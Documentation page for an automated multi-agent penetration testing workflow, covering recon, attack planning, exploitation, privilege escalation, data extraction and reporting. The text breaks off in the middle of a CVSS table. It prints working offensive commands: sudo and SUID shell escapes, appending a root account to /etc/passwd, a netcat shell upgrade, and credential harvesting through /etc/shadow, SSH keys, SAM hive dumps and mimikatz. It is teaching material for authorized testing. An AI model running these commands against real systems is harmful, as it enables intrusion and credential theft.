# Clicky Workflow

> **Navigation**: [Usage](usage.md) | [Architecture](architecture.md) | [Agents](agents.md) | [Workflow](workflow.md) | [Skills](skills.md) | [README](../README.md)

---

## Table of Contents

1. [Understanding the Workflow](#understanding-the-workflow)
2. [Phase 1: Reconnaissance](#phase-1-reconnaissance)
3. [Phase 2: Analysis](#phase-2-analysis)
4. [Phase 3: Exploitation](#phase-3-exploitation)
5. [Phase 4: Privilege Escalation](#phase-4-privilege-escalation)
6. [Phase 5: Data Extraction](#phase-5-data-extraction)
7. [Phase 6: Reporting](#phase-6-reporting)
8. [Handling Failures](#handling-failures)
9. [State and Checkpoints](#state-and-checkpoints)

---

## Understanding the Workflow

### What is a Penetration Test?

A penetration test (pentest) is an **authorized simulated attack** on a computer system. The goal is to find security weaknesses before real attackers do. It follows a structured methodology:

1. **Reconnaissance**: Find what's running on the target
2. **Analysis**: Identify vulnerabilities and plan attacks
3. **Exploitation**: Gain initial access
4. **Privilege Escalation**: Elevate from user to admin/root
5. **Data Extraction**: Demonstrate impact by accessing sensitive data
6. **Reporting**: Document findings and recommendations

### The Clicky Workflow



### Timing Overview

| Phase | Agent | Typical Duration | What Happens |
|-------|-------|------------------|--------------|
| 1 | Recon | 2-3 minutes | Port scan, service detection |
| 2 | Decision | 1 minute | Analyze and prioritize |
| 3 | Exploit | 5-10 minutes | Attack attempts |
| 4 | Privesc | 5-15 minutes | Escalate to root |
| 5 | Loot | 3-5 minutes | Extract data |
| 6 | Decision | 2 minutes | Generate report |
| **Total** | - | **18-36 minutes** | Complete assessment |

---

## Phase 1: Reconnaissance

### Purpose

You can't attack what you don't know exists. Reconnaissance discovers the **attack surface** - every service running on the target that might be vulnerable.

### Step-by-Step Process



### What Each Scan Does

**1. Full Port Scan** (`nmap -p- -T4 --min-rate 1000`)

```text
-p-           Scan all 65,535 ports (not just common ones)
-T4           Aggressive timing (faster, slightly noisier)
--min-rate    Send at least 1000 packets per second

Why all ports? Administrators sometimes hide services on unusual ports.
A web server on port 8080 or 8443 is just as vulnerable as one on 80.
```

**2. Service Detection** (`nmap -sV -sC`)

```text
-sV           Version detection (probe services to identify software)
-sC           Run default scripts (check for common vulnerabilities)

Example output:
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.3
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Company Website
445/tcp open  smb     Samba 4.11.6-Ubuntu
```

**3. Quick Access Checks**

These determine if common misconfigurations exist:

| Service | Check | Command | Good Result |
|---------|-------|---------|-------------|
| FTP | Anonymous login | `ftp anonymous@target` | "230 Login successful" |
| SMB | Null session | `smbclient -L -N //target` | List of shares |
| HTTP | Default creds | `curl http://target/admin` | Login page found |

### Example Recon Output

```json
{
  "target": "10.10.10.10",
  "scan_completed": "2024-01-15T14:32:45Z",
  "duration_seconds": 127,

  "ports_scanned": 65535,
  "ports_open": 6,

  "services": [
    {
      "port": 21,
      "service": "ftp",
      "product": "vsftpd",
      "version": "3.0.3",
      "anonymous_access": true,
      "files_accessible": ["backup.tar.gz", "readme.txt"],
      "priority": 1,
      "attack_vectors": ["credential_discovery", "file_download"]
    },
    {
      "port": 80,
      "service": "http",
      "product": "Apache",
      "version": "2.4.41",
      "technologies": {
        "cms": "WordPress 5.8.1",
        "language": "PHP 7.4",
        "framework": null
      },
      "directories_found": ["/wp-admin", "/wp-content", "/xmlrpc.php"],
      "priority": 2,
      "attack_vectors": ["sqli", "file_upload", "plugin_vulnerabilities"]
    }
  ],

  "environment": {
    "os": "Linux (Ubuntu)",
    "hostname": "webserver.company.local",
    "domain": null
  }
}
```

---

## Phase 2: Analysis

### Purpose

Raw reconnaissance data is overwhelming. The Decision Agent **filters, ranks, and creates an actionable plan** based on what historically works.

### The Decision Process



### How Priorities Are Assigned

The Decision Agent uses a **weighted scoring system** based on pentesting research:

```text
Score = (Success_Rate * 0.4) + (Ease_of_Exploit * 0.3) + (Value_if_Successful * 0.3)

Example: FTP with anonymous access
- Success_Rate: 100% (1.0) * 0.4 = 0.40
- Ease_of_Exploit: Very easy (0.9) * 0.3 = 0.27
- Value: Often contains credentials (0.8) * 0.3 = 0.24
- Total: 0.91 = Priority 1

Example: HTTP with WordPress
- Success_Rate: 85% (0.85) * 0.4 = 0.34
- Ease_of_Exploit: Moderate (0.6) * 0.3 = 0.18
- Value: Direct shell possible (0.9) * 0.3 = 0.27
- Total: 0.79 = Priority 2
```

### Attack Chain Construction

The Decision Agent doesn't just list attacks - it creates **chains** where each step enables the next:



### Example Analysis Output

```json
{
  "analysis_completed": "2024-01-15T14:33:30Z",
  "services_analyzed": 6,

  "attack_plan": {
    "primary_chain": "A",
    "description": "Credential hunting via anonymous FTP",
    "estimated_success": 0.85,
    "estimated_time": "10-15 minutes",

    "steps": [
      {
        "order": 1,
        "action": "ftp_anonymous_access",
        "target": "10.10.10.10:21",
        "description": "Download all files from anonymous FTP",
        "success_criteria": "Files downloaded successfully",
        "on_success": "proceed_to_step_2",
        "on_failure": "skip_to_step_3"
      },
      {
        "order": 2,
        "action": "credential_search",
        "target": "downloaded_files",
        "description": "Search files for passwords, keys, usernames",
        "patterns": ["password", "secret", "BEGIN RSA", "admin"],
        "on_success": "proceed_to_step_3",
        "on_failure": "proceed_to_step_4"
      },
      {
        "order": 3,
        "action": "credential_reuse",
        "targets": ["10.10.10.10:22", "10.10.10.10:80/wp-login.php"],
        "description": "Try found credentials on SSH and WordPress",
        "on_success": "foothold_achieved",
        "on_failure": "proceed_to_step_4"
      },
      {
        "order": 4,
        "action": "wordpress_exploitation",
        "target": "10.10.10.10:80",
        "description": "Scan WordPress for vulnerable plugins, SQLi",
        "tools": ["wpscan", "sqlmap"],
        "on_success": "foothold_achieved",
        "on_failure": "request_manual_review"
      }
    ]
  },

  "alternative_chains": [
    {
      "chain": "B",
      "trigger": "Chain A completely fails",
      "steps": ["Direct WordPress exploitation", "Theme file upload", "Plugin RCE"]
    }
  ]
}
```

---

## Phase 3: Exploitation

### Purpose

This is where we actually **gain access** to the target. The Exploit Agent executes the attack plan, trying each priority until one succeeds.

### The Exploitation Loop



### Step-by-Step: FTP Exploitation



### Step-by-Step: SQL Injection



### Step-by-Step: File Upload



### Shell Stabilization Explained

When you first get a shell, it's often unstable:

```text
Problem: Raw netcat shell
$ nc -lvnp 4444
Connection received!
$ id                    <- Works
uid=33(www-data)
$ vim                   <- BROKEN - no TTY
Vim: Warning: Output is not to a terminal
$ ^C                    <- Kills the whole session!
Connection closed
```

**Solution: Upgrade to full TTY**

```bash
# Step 1: Spawn a PTY (pseudo-terminal)
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Step 2: Background the shell
# Press Ctrl+Z

# Step 3: Configure your terminal
stty raw -echo; fg

# Step 4: Set terminal type
export TERM=xterm-256color
export SHELL=/bin/bash

# Now you have:
# - Arrow keys for history
# - Tab completion
# - Ctrl+C won't kill the shell
# - Can run vim, nano, top, etc.
```

---

## Phase 4: Privilege Escalation

### Purpose

Getting a shell as `www-data` or a regular user is just the beginning. **Root/Administrator access** means complete control: read any file, install backdoors, pivot to other systems.

### The Escalation Process



### Linux Enumeration Checklist

The Privesc Agent checks these in order of likelihood:

**1. Sudo Permissions** (25% of vulnerable systems)

```bash
$ sudo -l
User www-data may run the following commands:
    (ALL) NOPASSWD: /usr/bin/vim
    (ALL) NOPASSWD: /usr/bin/python3
    (user) NOPASSWD: /opt/backup.sh
```

If any entry allows running a shell-capable program, game over:

```bash
# Vim escape
sudo vim -c ':!/bin/bash'

# Python escape
sudo python3 -c 'import os; os.system("/bin/bash")'

# Less escape
sudo less /etc/passwd
!/bin/bash
```

**2. SUID Binaries** (30% of vulnerable systems)

```bash
$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/passwd       # Normal
/usr/bin/sudo         # Normal
/usr/bin/find         # EXPLOITABLE!
/opt/custom_script    # Unknown - investigate!
```

Exploit known SUID binaries:

```bash
# SUID find
/usr/bin/find . -exec /bin/bash -p \;

# SUID python
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# SUID cp (read sensitive files)
/usr/bin/cp /etc/shadow /tmp/shadow
```

**3. Writable System Files** (rare but instant win)

```bash
# If /etc/passwd is writable
echo 'hacker:$(openssl passwd -1 password):0:0::/root:/bin/bash' >> /etc/passwd
su hacker
# Now root!

# If /etc/shadow is writable
# Generate hash: openssl passwd -6 newpassword
# Replace root's hash
```

**4. Cron Jobs** (10% of vulnerable systems)

```bash
# Check system cron
cat /etc/crontab
ls -la /etc/cron.d/

# Monitor running processes (look for cron execution)
# Upload and run pspy
./pspy64
# Watch for root executing scripts you might be able to modify
```

### Windows Enumeration Checklist

**1. Token Privileges** (30% of Windows boxes)

```powershell
whoami /priv

# Look for:
SeImpersonatePrivilege    # Potato attacks
SeAssignPrimaryToken      # Potato attacks
SeBackupPrivilege         # Read any file
SeRestorePrivilege        # Write any file
SeDebugPrivilege          # Debug processes
```

**2. Service Misconfigurations** (25% of Windows boxes)

```powershell
# Unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

# Weak service permissions
accesschk.exe -uwcqv "Everyone" *
accesschk.exe -uwcqv "Users" *
```

**3. Scheduled Tasks** (15% of Windows boxes)

```powershell
schtasks /query /fo LIST /v

# Look for tasks running as SYSTEM that execute:
# - Scripts you can modify
# - Binaries in writable directories
```

---

## Phase 5: Data Extraction

### Purpose

With root access, we **prove impact** by extracting sensitive data. This demonstrates to the client what an attacker could steal.

### What to Extract (Priority Order)



### Linux Extraction Commands

```bash
# ===== CREDENTIALS =====

# Password hashes
cat /etc/shadow
# Example: root:$6$rounds=5000$salt$hash...:18000:0:99999:7:::

# SSH keys (check all users)
find / -name "id_rsa" 2>/dev/null
find / -name "*.pem" 2>/dev/null
cat /root/.ssh/id_rsa

# Command history (often contains typed passwords)
cat /root/.bash_history
cat /home/*/.bash_history

# Database credentials
grep -r "password" /var/www/ 2>/dev/null
grep -r "DB_PASS" /var/www/ 2>/dev/null
cat /var/www/html/wp-config.php

# ===== DATABASES =====

# MySQL dump
mysqldump -u root -p --all-databases > all_dbs.sql

# PostgreSQL dump
pg_dumpall -U postgres > pg_dump.sql

# ===== NETWORK =====

# Network configuration
ip addr
cat /etc/hosts
cat /etc/resolv.conf
netstat -tulpn

# ===== EVIDENCE =====

# Proof of access
hostname
id
cat /root/root.txt  # proof file
```

### Windows Extraction Commands

```powershell
# ===== CREDENTIALS =====

# Registry hives (requires SYSTEM)
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
# Extract offline with: secretsdump.py -sam sam.save -system system.save LOCAL

# Mimikatz (if available)
mimikatz.exe
sekurlsa::logonpasswords

# Credential Manager
cmdkey /list

# WiFi passwords
netsh wlan show profiles
netsh wlan show profile name="NetworkName" key=clear

# ===== BROWSER PASSWORDS =====

# Chrome passwords (requires user context)
# Location: %LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data

# ===== EVIDENCE =====

# System info
systeminfo
hostname
whoami /all

# Flag
type C:\Users\Administrator\Desktop\root.txt
```

### Loot Organization

```text
loot/10.10.10.10/
|
|-- credentials/
|   |-- hashes/
|   |   |-- shadow.txt           # Linux: /etc/shadow contents
|   |   |-- sam.save             # Windows: SAM hive
|   |   |-- system.save          # Windows: SYSTEM hive
|   |
|   |-- cleartext/
|   |   |-- passwords.txt        # user:password pairs
|   |   |-- database_creds.txt   # DB connection strings
|   |
|   |-- ssh_keys/
|   |   |-- root_id_rsa
|   |   |-- admin_id_rsa
|   |
|   |-- cracked/
|       |-- john_results.txt     # Cracked hashes
|
|-- databases/
|   |-- wordpress_users.csv      # wp_users table
|   |-- full_dump.sql            # Complete database
|
|-- configs/
|   |-- passwd.txt               # /etc/passwd
|   |-- network.txt              # Network configuration
|   |-- services/                # Service configurations
|
|-- evidence/
|   |-- proof_of_access.txt      # Flags, hostname, id output
|   |-- screenshots/
|       |-- root_shell.png
|       |-- sensitive_data.png
```

---

## Phase 6: Reporting

### Purpose

A penetration test is worthless without a **clear report**. This documents what was found, how it was exploited, and how to fix it.

### Report Structure



### CVSS Scoring Explained

CVSS (Common Vulnerability Scoring System) provides a standardized way to rate vulnerabilities:

| Score | Severity | Meaning |
|-------|----------|---------|
| 9.0-10.0 | Critical | Immediate exploitation possible, severe impact |
| 7.0-8.9 | High | Easy to exploit, significant impact |
